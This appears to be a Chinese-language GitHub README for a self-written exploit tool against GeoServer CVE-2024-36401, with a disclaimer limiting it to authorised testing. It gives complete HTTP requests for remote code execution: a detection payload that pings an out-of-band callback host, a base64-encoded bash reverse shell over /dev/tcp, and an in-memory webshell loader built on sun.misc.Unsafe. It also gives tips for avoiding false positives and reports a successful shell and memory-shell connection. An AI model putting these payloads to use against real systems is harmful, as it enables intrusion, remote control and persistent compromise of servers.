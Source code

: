 # geoserver CVE-2024-36401 漏洞利用工具

geoserver CVE-2024-36401  声明：仅用于授权测试，用户滥用造成的一切后果和作者无关 请遵守法律法规！

工具稍后放出

原本没打算写的，主要是想着直接去搜一下工具，直接用着方便就OK了

找到一个geoserver CVE-2024-36401漏洞利用工具

GeoServer 综合漏洞扫描工具V1.2 发布！

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/dsfdsf.png)

但是实际使用下来感觉到这个工具稍微有点尴，作者说是go语言写的，速度极快，主要表现是两点

1、闪退，不明原因的闪退，检测都要闪退

2、使用yakit漏洞是存在的，但是他这个工具不存在，就没明白怎么回事，估计是他的判断逻辑上出了问题

那么就想着能不能自己写一个试试

但是发现这个漏洞实际写下来，也没那么简单

那个作者说新版发布了,最新的版本是GeoServer 综合漏洞扫描工具V1.2，实际上发现他的新版也还是那样尴，原因在于，同样的站，他那个工具检测不到漏洞

我很好奇他的判断逻辑，到底问题出在哪，如果最基本的逻辑判断出问题，那么后续的都会出问题，如果本来有漏洞的站，你这个工具检测不出来，理论上说明这个工具写的就存在很明显的bug

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/fgdsgds.png)

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/dfsfsdf.png)

换成自己写的就可以检测到漏洞

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/fdgdfg.png)


简单说一下编写思路吧

1，默认payload:

POST /geoserver/wfs HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Host: xxxx
Accept-Language: en-US;q=0.9,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
xmlns:topp='http://www.openplans.org/topp'
xmlns:fes='http://www.opengis.net/fes/2.0'
xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'ping wsn9.callback.red')</wfs:valueReference>
</wfs:GetPropertyValue>

那么注意这里： <wfs:Query typeNames='sf:archsites'/>

这个地方，如果你需要采取正则的方式去拿到，这个是sf:archsites网站的一个基本标识，你需要先拿到他的

<wfs:ReturnFeatureType>(.*?)</wfs:ReturnFeatureType>信息，然后你可以采取拼接的方式

判断漏洞的时候
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'ping wsn9.callback.red')</wfs:valueReference>
  
  这个地方，其实都不用去查找dns记录
  
  简单的逻辑就是判断是否存在异常的类
  
  如java.lang.ClassCastException
  
当然，这只是判断逻辑

这个回显本来就是400，这个地方容易踩坑，你需要判断错误页面后，进行数据查找

首先你需要请求一个
<wfs:ListStoredQueries service='WFS'\n" +
 " version='2.0.0'\n" +
 " xmlns:wfs='http://www.opengis.net/wfs/2.0'/>
 
 这个信息代表了你可以拿到他的<wfs:ReturnFeatureType>(.*?)</wfs:ReturnFeatureType>
 
 然后直接赋值给文本，然后再调一个函数方法，把文本的截取的信息，拼接到参数的<wfs:Query typeNames='sf:archsites'/>这里
 
 这条就会对判断的逻辑相对精准，检测类就这么写就可以了
 
 如果你只是一直使用 <wfs:Query typeNames='sf:archsites'/>，那么误判的几率很高，会提示找不到这个sf:archsites

 反弹类
 
我们看看反弹的payload:

POST /geoserver/wfs HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: JSESSIONID=5D030E92A0AFCC3B5006597E6524FD8D
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Content-Type: application/xml
Content-Length: 438

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}')</wfs:valueReference>
</wfs:GetPropertyValue>

我们注意这里：

<wfs:Query typeNames='sf:archsites'/>

同样，先要正则取值然后拼接给他

然后直接请求

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvOTk5OSAwPiYx这里是加密过的base64

编写的时候，就把用户输入的bash -i >& /dev/tcp/127.0.0.1/9999 0>&1，转换成base64就可以了

然后发请求，同样，去找关键的异常类，判断逻辑即可

内存马注入类
这个地方
POST /geoserver/wfs HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Host: xxx
Accept-Language: en-US;q=0.9,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 20383

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'
var str="";
var bt;
try {
    bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
} catch (e) {
    bt = java.util.Base64.getDecoder().decode(str);
}
var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
theUnsafe.setAccessible(true);
unsafe = theUnsafe.get(null);
unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), bt, null).newInstance();
')</wfs:valueReference>
</wfs:GetPropertyValue>

这个地方还是有  <wfs:Query typeNames='sf:archsites'/>，老规矩，先取值

在star这里，放入你生成的base64的内存马加密代码

然后判断逻辑即可

容易踩坑的点
1、  <wfs:Query typeNames='sf:archsites'/>重复利用，误判几率98%，报错如下：

https://geoserver.epic.blue/geoserver/schemas/ows/1.1.0/owsAll.xsd">
<ows:Exception exceptionCode="InvalidParameterValue" locator="typeName">
<ows:ExceptionText>Could not locate {http://www.openplans.org/spearfish}archsites in catalog.<

存在漏洞的点：
<ows:Exception exceptionCode="NoApplicableCode">
<ows:ExceptionText>java.lang.ClassCastException: class java.lang.ProcessImpl cannot be cast to class org.opengis.feature.type.AttributeDescriptor (java.lang.ProcessImpl is in module java.base of loader &amp;apos;bootstrap&amp;apos;; org.opengis.feature.type.AttributeDescriptor is in unnamed module of loader org.apache.catalina.loader.ParallelWebappClassLoader @4b9df8a)
class java.lang.ProcessImpl cannot be cast to class org.opengis.feature.type.AttributeDescriptor (java.lang.ProcessImpl is in module java.base of loader &amp;apos;bootstrap&amp;apos;; org.opengis.feature.type.AttributeDescriptor is in unnamed module of loader org.apache.catalina.loader.ParallelWebappClassLoader @4b9df8a)</ows:ExceptionText>
</ows:Exception>

简单来讲存在漏洞就是java.lang.ClassCastException

误判就是Could not locate {http://www.openplans.org/spearfish}archsites in catalog

2、判断方式：
抓取调用的wfs:ReturnFeatureType>，赋给文本-文本调用函数方法，请求，拼接在请求，判断回显的异常

文本调用函数这里，需要提前给值，这样防止出现空指针异常，请求前拼接，判断回显的异常，是异常内进行判断

最终我们实现了这个漏洞利用工具的编写

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/dfdsfdf.png)

我们来测试一下漏洞

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/dsfsdfsd.png)

我们检测到了漏洞，拿到了端点，反弹shell也成功了

接下来我们来试试注入内存马

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/gfdgfdg.png)

显示是成功注入内存马，我们来连接看看是否成功

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/fdgdgds.png)

是可以连接的



















 
            

  

